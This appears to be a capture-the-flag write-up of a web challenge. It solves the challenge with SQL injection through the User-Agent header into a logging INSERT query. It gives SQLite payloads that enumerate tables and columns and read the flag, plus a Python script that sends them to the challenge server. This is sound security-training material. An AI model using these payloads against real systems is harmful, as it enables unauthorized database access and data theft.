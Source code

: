 ```yaml
---
title: Logger Middleware
author: lehai
date: 2023-12-12 14:10:00 +0800
categories: [web]
tags: [web,ctf,write-up]
---
```


## Logger Middleware

#### By @es

[Address challenge](https://battle.cookiearena.org/challenges/web/logger-middleware)
The goal of this challenge is to query the hidden data in database(Flag)

### Chanllenge Details
- Format flag:CHH{XXX}
- Web
- SQL Injection
### Web Analysis
This website has the function of recording user logs

![](/assets/img/writeup/Logger-Middleware/1.png)

To save the log into the database, we guess the query command will be insert into

Looking at the http header, the <b style="color:red">User-Agent</b> is untrusted. Because other headers such as cookie, host, if adjusted, will lead to transmission errors causing us to disconnect from the website.

![](/assets/img/writeup/Logger-Middleware/2.png)

 Add a ' or " sign after the User-Agent value to determine which quotation marks should be used in the query

 The website prints an error that helps us determine the website's query

![](/assets/img/writeup/Logger-Middleware/3.png)

This is the website's query

<b> INSERT INTO logger (ip_address, user_agent, referer, url, cookie, created_at) VALUES ('***', 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0'', 'None', 'http://103.97.125.56:31292/', 'None', '2024-04-08 01:19:08.677431')</b>

<b>FIND_TABLE</b>: test',(SELECT GROUP_CONCAT(name) FROM sqlite_master WHERE type='table' AND name NOT LIKE 'sqlite_%'),null,null,null) -- '

![](/assets/img/writeup/Logger-Middleware/4.png)

<b>FIND_COLUMNS</b>: test',(SELECT GROUP_CONCAT(name) FROM pragma_table_info('flag')),null,null,null)  -- '

![](/assets/img/writeup/Logger-Middleware/5.png)

<b>FIND_FLAG</b>: test',(SELECT secr3t_flag FROM flag),null,null,null)  -- '

![](/assets/img/writeup/Logger-Middleware/6.png)

I wrote a piece of python code to exploit the challenge

```python
import requests
from bs4 import BeautifulSoup

PAYLOADS = {
    'FIND_TABLE':"test',(SELECT GROUP_CONCAT(name) FROM sqlite_master WHERE type='table' AND name NOT LIKE 'sqlite_%'),null,null,null) -- '",
    'FIND_COLUMNS':"test',(SELECT GROUP_CONCAT(name) FROM pragma_table_info('flag')),null,null,null)  -- '",
    'FIND_FLAG':"test',(SELECT secr3t_flag FROM flag),null,null,null)  -- '"
}
url="http://103.97.125.56:31292/"
for key, value in PAYLOADS.items():
    headers = {"User-Agent": value}
    print("Testing: ",headers)
    r = requests.get(url, headers=headers)
    data = r.text 
    soup = BeautifulSoup(data, 'html.parser')
    td_element = soup.find_all('td')[2] 
    data = td_element.get_text()
    print(key,": ",data)

    
```

![](/assets/img/writeup/Logger-Middleware/7.png)

## Thanks for watching !!!
